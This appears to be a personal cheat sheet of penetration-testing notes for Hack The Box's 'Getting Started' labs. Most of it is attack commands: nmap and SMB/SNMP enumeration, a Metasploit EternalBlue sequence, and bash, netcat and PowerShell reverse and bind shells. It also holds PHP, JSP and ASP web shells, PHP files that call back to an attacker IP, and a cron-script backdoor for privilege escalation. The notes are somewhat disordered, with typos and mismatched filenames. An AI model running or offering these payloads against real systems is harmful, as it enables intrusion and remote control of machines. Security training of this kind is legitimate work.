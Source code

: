 # GettingStarted(HTB)
Lessons and Tutorials Covered

## NCAT
# netcat can be used to connect to any listening port and interact with the service running on that port.
> ncat ip port 
> nc -nv ip port

## NMAP
# port scanner
> nmap -sV -sC -p- 10.129.42.253
> nmap -sV --open -oA nibbles_initial_scan <ip address>
> whatweb --no-errors 10.10.10.0/24
> nmap -sV --script=banner -p21 10.10.10.0/24
> nmap -sC -sV -p21 10.129.42.253
> nmap --script smb-os-discovery.nse -p445 10.10.10.40
> nmap -A -p445 10.129.42.253

> locate scripts/citrix
> nmap --script <script name> -p<port> <host>
  
## Connecting 
  # ftp =   ftp -p 10.129.42.253
  # smb =   smbclient -N -L \\\\10.129.42.253
    smbclient \\\\10.129.42.253\\users
    smbclient -U bob \\\\10.129.42.253\\users
  # snmp =   snmpwalk -v 2c -c public 10.129.42.253 1.3.6.1.2.1.1.5.0
    snmpwalk -v 2c -c private  10.129.42.253 
    onesixtyone -c dict.txt 10.129.42.254
  
  
## WEB Enumb
  # banner grabbing
  > curl -IL https://www.inlanefreight.com
  > whatweb 10.10.10.121
  > whatweb --no-errors 10.10.10.0/24
  # scan web directories
  > gobuster dir -u http://10.10.10.121/ -w /usr/share/dirb/wordlists/common.txt
  # install seclists = git clone https://github.com/danielmiessler/SecLists && sudo apt install seclists -y
  # Next, add a DNS Server such as 1.1.1.1 to the /etc/resolv.conf file.
  > gobuster dns -d inlanefreight.com -w /usr/share/SecLists/Discovery/DNS/namelist.txt
  
## Exploit Scan
  # sudo apt install exploitdb -y
  > searchsploit openssh 7.2
  ## Metasploit
  # Metasploit Framework (MSF) contains exploits for many public vulnerabilities and provides an easy way to use these exploits against vulnerable targets
  > msfconsole
    > search exploit eternalblue
    > use exploit/windows/smb/ms17_010_psexec
    > set RHOSTS 10.10.10.40
    > check
    > exploit
  
## Reverse Shell
  # on my computer
  > nc -lvnp 1234
  > nc 10.10.10.1 1234
  # on host
  > bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'
  > rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 1234 >/tmp/f
  > powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("10.10.10.10",1234);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
## BIND Shell
  #
  > rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc -lvp 1234 >/tmp/f
  > python -c 'exec("""import socket as s,subprocess as sp;s1=s.socket(s.AF_INET,s.SOCK_STREAM);s1.setsockopt(s.SOL_SOCKET,s.SO_REUSEADDR, 1);s1.bind(("0.0.0.0",1234));s1.listen(1);c,a=s1.accept();\nwhile True: d=c.recv(1024).decode();p=sp.Popen(d,shell=True,stdout=sp.PIPE,stderr=sp.PIPE,stdin=sp.PIPE);c.sendall(p.stdout.read()+p.stderr.read())""")'
> powershell -NoP -NonI -W Hidden -Exec Bypass -Command $listener = [System.Net.Sockets.TcpListener]1234; $listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + " ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();
## Once in
  > python -c 'import pty; pty.spawn("/bin/bash")'
  
## WEB SHELLS
Apache	/var/www/html/   Nginx	/usr/local/nginx/html/   IIS	c:\inetpub\wwwroot\   XAMPP	C:\xampp\htdocs\
php = <?php system($_REQUEST["cmd"]); ?>
jsp = <% Runtime.getRuntime().exec(request.getParameter("cmd")); %>
asp = <% eval request("cmd") %>
  # eg = echo '<?php system($_REQUEST["cmd"]); ?>' > /var/www/html/shell.php
  # browser http://SERVER_IP:PORT/shell.php?cmd=id    or curl http://SERVER_IP:PORT/shell.php?cmd=id
  
## Privilege Escalation
# ./linpeas.sh
  > dpkg -l
  > sudo -l
  > sudo -u user /bin/echo Hello World!
  # /etc/crontab     /etc/cron.d      /var/spool/cron/crontabs/root
  
  
## Transfer Files
  # cd /tmp
  > python3 -m http.server 8000
  > wget http://10.10.14.1:8000/linenum.sh
  > curl http://10.10.14.1:8000/linenum.sh -o linenum.sh
  >  scp linenum.sh user@remotehost:/tmp/linenum.sh
  # BASE64
  > base64 file -w 0
  > user@remotehost$ echo f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAA... <SNIP> ...lIuy9iaW4vc2gAU0iJ51JXSInmDwU | base64 -d > file
  


* File Inclusion / Directory Traversal (HTB Academy)
* Linux Fundermentals (HTB Academy)
* Login Attacks (HTB Academy)
* Metasploit (HTB Academy)
* Nmap (HTB Academy)
* Web Enumeration
* Windows Fundermentals (HTB Academy)

##### Connect to VPN
> sudo openvpn user.ovpn

  _______________________
  

nmap -sV --open -oA nibbles_initial_scan <ip address>
nmap -p- --open -oA nibbles_full_tcp_scan 10.129.42.190
nc -nv 10.129.42.190 22
nmap -sC -p 22,80 -oA nibbles_script_scan 10.129.42.190
nmap -sV --script=http-enum -oA nibbles_nmap_http_enum 10.129.42.190 
whatweb 10.129.42.190


gobuster dir -u http://10.129.42.190/nibbleblog/ --wordlist /usr/share/dirb/wordlists/common.txt

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ATTACKING IP> <LISTENING PORT) >/tmp/f
<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.246 9443 >/tmp/f"); ?>
nc -lvnp 9443
python -c 'import pty; pty.spawn("/bin/bash")'
 python3 -c 'import pty; pty.spawn("/bin/bash")'


unzip personal.zip
cat monitor.sh
sudo python3 -m http.server 8080
wget http://<your ip>:8080/LinEum.sh
chmod +x LinEnum.sh
./LinEnum.sh


https://github.com/vanhauser-thc/thc-hydra
https://github.com/digininja/CeWL
https://highon.coffee/blog/reverse-shell-cheat-sheet/!

<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.5 9443 >/tmp/f"); ?>
nc -lvnp 9443
navigate to the webfile and should get a hit on the listner as shell
upgrade to nicer shell via which python3 commmand
python -c 'import pty; pty.spawn("/bin/bash")' OR python -c 'import pty; pty.spawn("/bin/bash")' OR python3 -c 'import pty; pty.spawn("/bin/bash")'
to enumerate priv esculations run this while listening - sudo python3 -m http.server 8080
https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
Back on the target type wget http://<your ip>:8080/LinEum.sh to download the script
Once the script is pulled over, type chmod +x LinEnum.sh to make the script executable and then type ./LinEnum.sh to run it.
modify monitor.py script to add line at the end
echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.5 8443 >/tmp/f' | tee -a monitor.sh


10.129.42.249 target
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
/theme
/data
/backups
{"status":"0","latest":"3.3.16","your_version":"3.3.15","message":"You have an old version - please upgrade"}
10.10.15.24 me
<USR>admin</USR>
<NAME/>
<PWD>d033e22ae348aeb5660fc2140aec35850c4da997</PWD>
<EMAIL>admin@gettingstarted.com</EMAIL>

nmap -sV --open -oA nibbles_initial_scan 10.129.42.249 
nmap -p- --open -oA nibbles_full_tcp_scan 10.129.42.249 

nc -nv 10.129.42.249 22
nc -nv 10.129.42.249 80

nmap -sC -p 22,80 -oA nibbles_script_scan 10.129.42.249
nmap -sV --script=http-enum -oA nibbles_nmap_http_enum 10.129.42.249

whatweb 10.129.42.249
gobuster dir -u http://10.129.42.249/data/ --wordlist /usr/share/dirb/wordlists/common.txt

<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.129.42.249 4444 >/tmp/f"); ?>
